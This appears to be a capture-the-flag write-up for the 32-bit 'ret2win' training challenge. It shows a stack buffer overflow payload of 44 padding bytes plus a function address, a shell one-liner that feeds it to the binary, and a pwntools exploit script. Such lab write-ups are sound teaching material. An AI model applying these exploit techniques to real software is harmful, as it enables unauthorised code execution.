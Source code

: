 The attack plan is to build a `payload` that overwrites the *saved eip* of *pwnme*:

* **PADDING** of 44 bytes
* **ret2win ADDRESS** of 4 bytes

This should allow us to invoke the `ret2win` function.

```bash
$ python3
>>> padding = b"A"*44
>>> ret2win_addr = b"\x2c\x86\x04\x08" # little-endian 0x0804862c
>>> import sys
>>> sys.stdout.buffer.write(padding + ret2win_addr) # payload
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,
```

Pass the *payload* as input to the program:

```bash
$ python3 -c 'padding = b"A"*44; ret2win_addr = b"\x2c\x86\x04\x08"; import sys; sys.stdout.buffer.write(padding + ret2win_addr)' | ./ret2win32
...
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

It works!

Below is a *Python* script using the *pwntools* library to generate the *payload* and interact with the vulnerable program.

```python
from pwn import context, ELF, process, flat

exe = './ret2win32'

elf = context.binary = ELF(exe, checksec=False)

context.log_level = 'debug'

# Payload crafting

srip_offset = 44 # bytes

ret2win_addr = 0x0804862c

payload = flat({
    srip_offset: ret2win_addr
    })

# Get the flag

io = process([exe])

io.sendline(payload)

data = io.recvall().decode()

data = data.split('Thank you!')

print(data[1])
```
